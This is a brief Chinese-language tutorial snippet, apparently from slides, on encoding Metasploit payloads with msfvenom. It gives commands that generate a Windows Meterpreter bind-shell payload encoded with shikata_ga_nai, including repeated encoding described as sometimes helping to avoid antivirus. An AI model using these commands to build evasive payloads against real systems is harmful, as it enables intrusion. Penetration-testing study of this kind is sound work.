

# msf-msfvenom-编码
默认情况下，当使用 -b 标志（badchar 标志）时，编码功能将自动启动。
在其他情况下，必须使用 -e 标志： msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw

列出可用编码器：msfvenom -l encoders

可以使用 -i 标志对有效负载进行多次编码 。有时更多的迭代可能有助于避免防病毒，但编码并不是真正的反病毒规避解决方案： msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3
72